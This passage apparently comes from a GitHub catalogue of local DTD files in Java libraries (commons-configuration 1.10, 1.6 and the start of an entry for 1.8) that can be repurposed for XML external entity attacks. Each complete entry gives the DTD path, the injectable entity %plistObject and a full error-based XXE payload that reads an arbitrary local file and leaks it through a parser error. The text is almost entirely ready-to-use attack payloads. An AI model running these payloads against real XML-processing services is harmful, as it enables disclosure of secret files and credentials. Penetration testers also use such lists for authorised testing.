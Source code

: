 
**DTD File:** `[HOME_DIR]/.m2/repository/commons-configuration/commons-configuration/1.10/commons-configuration-1.10.jar!/PropertyList-1.0.dtd`

**Injectable entity:** `%plistObject`

**XXE Payload:**
```
<!DOCTYPE message [
    <!ENTITY % local_dtd SYSTEM "file://[HOME_DIR]/.m2/repository/commons-configuration/commons-configuration/1.10/commons-configuration-1.10.jar!/PropertyList-1.0.dtd">

    <!ENTITY % plistObject '(aa)>
        <!ENTITY &#x25; file SYSTEM "file:///YOUR_FILE">
        <!ENTITY &#x25; eval "<!ENTITY &#x26;#x25; error SYSTEM &#x27;file:///abcxyz/&#x25;file;&#x27;>">
        &#x25;eval;
        &#x25;error;
        <!ELEMENT aa "bb"'>

    %local_dtd;
]>
<message></message>
```

 --- 

**DTD File:** `[HOME_DIR]/.m2/repository/commons-configuration/commons-configuration/1.6/commons-configuration-1.6.jar!/PropertyList-1.0.dtd`

**Injectable entity:** `%plistObject`

**XXE Payload:**
```
<!DOCTYPE message [
    <!ENTITY % local_dtd SYSTEM "file://[HOME_DIR]/.m2/repository/commons-configuration/commons-configuration/1.6/commons-configuration-1.6.jar!/PropertyList-1.0.dtd">

    <!ENTITY % plistObject '(aa)>
        <!ENTITY &#x25; file SYSTEM "file:///YOUR_FILE">
        <!ENTITY &#x25; eval "<!ENTITY &#x26;#x25; error SYSTEM &#x27;file:///abcxyz/&#x25;file;&#x27;>">
        &#x25;eval;
        &#x25;error;
        <!ELEMENT aa "bb"'>

    %local_dtd;
]>
<message></message>
```

 --- 

**DTD File:** `[HOME_DIR]/.m2/repository/commons-configuration/commons-configuration/1.8/commons-configuration-1.8.jar!/PropertyList-1.0.dtd`

